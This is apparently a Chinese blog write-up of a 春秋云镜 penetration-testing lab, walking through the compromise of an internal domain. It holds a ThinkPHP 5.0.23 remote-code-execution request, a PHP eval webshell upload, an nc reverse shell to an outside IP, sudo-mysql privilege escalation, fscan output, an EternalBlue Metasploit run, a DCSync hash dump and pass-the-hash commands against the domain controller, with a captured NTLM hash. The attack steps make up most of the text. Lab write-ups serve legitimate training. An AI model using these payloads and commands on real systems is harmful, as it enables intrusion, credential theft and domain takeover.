 ```yaml
---
title: 春秋云镜
date: 2023-10-01 22:50:46
categories:
- 网络安全
tags:
- web 
description: |
   靶场
---
```


## Initial

### php V5.0.23

查到exp

```bash
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.236.243
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls /
```

写马

```php
http://39.xx.xx.xx/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '%3C%3Fphp+%40eval%28%24_POST%5B1%5D%29%3B%3F%3E' >1.php
//注意url编码一下
```

然后蚁剑连接,反弹shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 107.172.141.31 9999 >/tmp/f`

找suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

sudo -l

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu-web01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu-web01:
    (root) NOPASSWD: /usr/bin/mysql
```

`sudo mysql -e '\! /bin/sh'`提权

`cat /root/flag/flag01.txt`

拿到第一个flag`flag{60b53231-`

传文件fscan

```bash
./fscan_amd64 -h 172.22.1.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.22.1.15     is alive
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.18     is alive
(icmp) Target 172.22.1.21     is alive
[*] Icmp alive hosts len is: 4
172.22.1.15:22 open
172.22.1.2:445 open
172.22.1.21:139 open
172.22.1.18:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.2:88 open
172.22.1.18:445 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[+] 172.22.1.21 MS17-010        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] 172.22.1.2  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.1.2      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393 
[*] WebTitle: http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] NetBios: 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600 
[*] NetBios: 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] WebTitle: http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
已完成 14/14
[*] 扫描结束,耗时: 9.786441836s
```

Proxifier 连上socks5代理后访问是一个oa信呼

后台rce`https://blog.csdn.net/solitudi/article/details/118675321`或者phpmyadmin弱密码进入

写马拿第二个flag

第二段`2ce3-4813-87d4-`

第三台机器不出网 永恒之蓝

```bash
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
run
```

msf内拿用户hash值

1. `#msf中`
2. `load kiwi`
3. `kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit`

再用crackmapexec进行哈希传递

1. `p4 crackmapexec smb 172.22.1.2 -u administrator -H 10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "whoami"`
2. `p4 crackmapexec smb 172.22.1.2 -u administrator -H 10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type C:\Users\Administrator\flag\flag03.txt"`

好找

`/opt/homebrew/Cellar/proxychains-ng/4.16/.bottle/etc/proxychains.conf`
